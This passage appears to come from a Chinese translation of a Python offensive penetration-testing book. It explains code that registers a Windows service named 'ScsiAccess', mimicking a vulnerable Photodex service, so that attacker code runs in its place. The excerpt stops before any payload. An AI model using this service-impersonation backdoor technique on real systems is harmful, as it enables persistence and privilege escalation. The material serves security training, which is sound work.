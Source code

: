 ```
# Python For Offensive PenTest

# Backdooring Legitimate Windows Service

import servicemanager
import win32serviceutil
import win32service
import win32api

import os
import ctypes

...

# Part 1 - initializing : in this section we:-
if __name__ == '__main__':

    servicemanager.Initialize() # define a listener for win servicemanager
    servicemanager.PrepareToHostSingle(Service)
    servicemanager.StartServiceCtrlDispatcher()
    win32serviceutil.HandleCommandLine(Service) #pass a Service class handler, so whenver we got a signal from the servicemanager we will pass it to the Service class

```

首先，我的部分代码继承自我在 ActiveState 网站上找到的一个脚本。在这里，你可以找到原始脚本：[`code.activestate.com/recipes/551780/`](http://code.activestate.com/recipes/551780/)。其次，我建议阅读更多关于 Microsoft 服务控制管理器功能的资料。这里是一个不错的起点：[`msdn.microsoft.com/en-us/library/windows/desktop/ms685150(v=vs.85).aspx`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms685150(v=vs.85).aspx)。最后但同样重要的是，`pywin`库是创建 Windows 服务的前置库。你可以从以下链接下载：[`sourceforge.net/projects/pywin32/files/pywin32/Build%20219/`](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/)。我们的代码可以分为两个部分。第一部分是关于初始化的。在这一部分，我们为 Windows 定义一个监听器，即`servicemanager`。然后，我们传递一个`Service`类处理程序，因此每当我们从`servicemanager`接收到信号时，我们会将其传递给`Service`类。

让我们进入第二部分：

```
# Part 2 - Here (in service class) we define the action to do when we got a service manager signal 

class Service(win32serviceutil.ServiceFramework):

    _svc_name_ = 'ScsiAccess' # specify the service name and the display name - note that the name scsiacces is similar to the original one for photodex vulnerable software
    _svc_display_name_ = 'ScsiAccess'

    def __init__(self, *args): # Initialize ServiceFramework and we define in functions style what to do when we got a service manager signal
        win32serviceutil.ServiceFramework.__init__(self, *args)

    def sleep(self, sec): # if the service manager signal was pause - then we sleep for an amount of seconds
        win32api.Sleep(sec*1000, True)

    def SvcDoRun(self): # if the signal was start - then:-

        self.ReportServiceStatus(win32service.SERVICE_START_PENDING) # tell the Service Manager that we are planning to run the service via reporting back a start pending status
        try:
            self.ReportServiceStatus(win32service.SERVICE_RUNNING) #tell the Service Manager that we are currently running up the service then call the start
                                                                   #function (start) if any exception happened, we will call the stop function (SvcStop)
            self.start() 

        except Exception, x:
```